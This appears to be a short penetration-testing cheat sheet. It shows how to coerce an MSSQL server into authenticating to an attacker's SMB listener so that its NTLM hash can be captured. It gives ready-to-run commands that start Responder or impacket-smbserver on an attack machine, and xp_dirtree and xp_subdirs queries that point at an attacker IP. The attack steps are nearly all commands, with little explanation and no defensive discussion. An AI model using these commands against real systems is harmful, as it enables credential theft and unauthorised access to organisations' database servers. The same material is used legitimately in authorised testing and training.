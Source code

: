 -- -
Get the MSSQL server to try to communicate with a fake SMB server and pull the hash from that authentication using responser. 
### Setup Responder
```bash
# on attack machine
sudo responder -I <interface>
sudo responder -I tun0
```
### Setup smbserver
Alternatively, you can setup a fake malicious smb share on the attack box and see the hash there.
```bash
sudo impacket-smbserver share ./ -smb2support
```
### Send Hash to responder
```mysql
# xp_dirtree
EXEC master..xp_dirtree '\\<attack ip>\<share>'
GO
EXEC master..xp_dirtree '\\10.10.110.17\share'
GO

# xp_subdirs
EXEC master..xp_subdirs '\\<attack ip>\<share>'
GO
EXEC master..xp_subdirs '\\10.10.110.17\share'
GO
```
